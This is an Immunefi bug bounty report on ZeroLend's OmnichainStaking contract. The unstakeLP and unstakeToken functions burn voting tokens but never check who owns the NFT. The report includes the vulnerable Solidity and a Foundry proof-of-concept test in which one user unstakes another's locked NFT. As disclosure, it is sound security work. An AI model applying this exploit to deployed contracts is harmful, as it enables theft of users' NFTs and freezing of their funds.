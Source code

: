 # 29135 - \[SC - Critical] OmnichainStakingsolunstakeLP and OmnichainStaki...

Submitted on Mar 8th 2024 at 07:52:20 UTC by @jovi for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #29135

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/zerolend/governance

Impacts:

* Direct theft of any user NFTs, whether at-rest or in-motion, other than unclaimed royalties
* Temporary freezing of funds for at least 1 hour
* Permanent freezing of funds

## Description

## Brief/Intro

The unstakeLP and the unstakeToken functions at the OmnichainStaking contracts allow a user to burn ZEROvp tokens in order to get back user-defined tokenIds. This enables malicious parties to unstake tokens they don't rightfully own.

## Vulnerability Details

If we take a look at both unstaking functions, there are no checks to ensure the transaction caller has any right to that token id, rather the functions check if the caller owns enough ZEROvp token to be burnt.

```solidity
function unstakeLP(uint256 tokenId) external {
        _burn(msg.sender, lpPower[tokenId] * 4);
        lpLocker.safeTransferFrom(address(this), msg.sender, tokenId);
    }

    function unstakeToken(uint256 tokenId) external {
        _burn(msg.sender, tokenPower[tokenId]);
        tokenLocker.safeTransferFrom(address(this), msg.sender, tokenId);
    }
```

This is not necessarily an issue if taken only at the OmnichainStaking contract context. However, considering different NFTs have different lock expiries at both the LockerToken and the LockerLP contracts, malicious parties can unstake token ids to benefit in different forms, as shown at the impact section.

## Impact Details

Users can receive tokens before their lock expiry ends by unstaking ERC-721 tokens that have earlier expiry without the authorization of their rightful owners. This leads to the freezing of user funds that can be never-ending as other people can claim before the rightful owner.

## References

unstakeLP and unstakeToken functions at OmnichainStaking.sol: https://github.com/zerolend/governance/blob/main/contracts/locker/OmnichainStaking.sol#L76C5-L84C6

votingPowerOf and calculatePower functions at BaseLocker.sol: https://github.com/zerolend/governance/blob/main/contracts/locker/BaseLocker.sol#L103C5-L116C6

## Proof of concept

Paste the following code snippet inside the test folder:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {console} from "../../lib/forge-std/src/console.sol";
import {StdInvariant} from "../../lib/forge-std/src/StdInvariant.sol";
import {LockerLP} from "../../locker/LockerLP.sol";
import {LockerToken} from "../../locker/LockerToken.sol";
import {OmnichainStaking} from "../../locker/OmnichainStaking.sol";
import {Test} from "../../lib/forge-std/src/Test.sol";
import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract MintableERC20 is ERC20 {
    address public owner;

    constructor(string memory name, string memory symbol) ERC20(name, symbol) {
        owner = msg.sender;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "MintableERC20: caller is not the owner");
        _;
    }

    function mint(address to, uint256 amount) public onlyOwner {
        _mint(to, amount);
    }
}

contract ZeroLendTest is StdInvariant, Test {

    LockerLP lockerLP;
    LockerToken lockerToken;
    OmnichainStaking omnichainStaking;
    MintableERC20  arbitraryToken;
    address user = makeAddr("user");
    address alice = makeAddr("alice");
    address bob = makeAddr("bob");
    address public configurator = makeAddr("configurator");
    uint256 internal WEEK;
    uint256 internal MAXTIME;

    function setUp() public {
        vm.prank(configurator);
        arbitraryToken = new MintableERC20("Arbitrary Token", "ATKN");
        vm.prank(configurator);
        arbitraryToken.mint(user, 1 ether);
        vm.prank(configurator);
        arbitraryToken.mint(alice, 1 ether);
        vm.prank(configurator);
        arbitraryToken.mint(bob, 1 ether);


        vm.prank(configurator);
        lockerLP = new LockerLP();

        lockerLP.init(
            address(arbitraryToken),
            // staking address
            address(0x1000),
            // stakingBonus
            address(0x1001)
        );

        lockerToken = new LockerToken();
        lockerToken.init(
            address(arbitraryToken),
            // staking address
            address(0x1000),
            // stakingBonus
            address(0x1001)
        );

        omnichainStaking = new OmnichainStaking();
        omnichainStaking.init(
            // LZ endpoint
            address(0x1002),
            // tokenLocker
            address(lockerToken),
            // lpLocker
            address(lockerLP)
        );

        WEEK = 1 weeks;
        MAXTIME = 365 * 86400;

    }

    function test_poc1() public {

        vm.prank(alice);
        arbitraryToken.approve(address(lockerLP), 1 ether);
        vm.prank(bob);
        arbitraryToken.approve(address(lockerLP), 1 ether);

        uint256 unlockTime0 = ((block.timestamp + MAXTIME) / WEEK) * WEEK - 100; // Locktime is rounded down to weeks
        vm.prank(alice);
        lockerLP.createLock(0.5 ether, unlockTime0, false);

        // pass 2 weeks
        vm.warp(block.timestamp + 2 * WEEK);

        uint256 unlockTime1 = unlockTime0  + 1 * WEEK; // Locktime is rounded down to weeks
        vm.prank(bob);
        lockerLP.createLock(0.5 ether, unlockTime1, false);

        // transfer both tokens to the omnichainStaking contract
        vm.prank(alice);
        lockerLP.safeTransferFrom(alice, address(omnichainStaking), 1);

        vm.prank(bob);
        lockerLP.safeTransferFrom(bob, address(omnichainStaking), 2);

        // get the lock 1 expiry
        (, uint256 end,,) = lockerLP.locked(1);

        // travel to the expiry period + 1 day
        vm.warp(end + 1 days);

        require(end < block.timestamp);

        // bob will unstake alice's token and be able to withdraw the token at the lockerLp contract.
        vm.prank(bob);
        omnichainStaking.unstakeLP(1);

        // alice will try to unstake her token and fail
        vm.prank(alice);
        vm.expectRevert();
        omnichainStaking.unstakeLP(1);

        // alice will end be able to unstake bob's token, but notice how it is still locked at the lockerLp contract
        (,end,,) = lockerLP.locked(2);
        require(end > block.timestamp);


       }

}
```

Run the test with the following command:

```shell
forge test --match-test test_poc1 -vvv
```
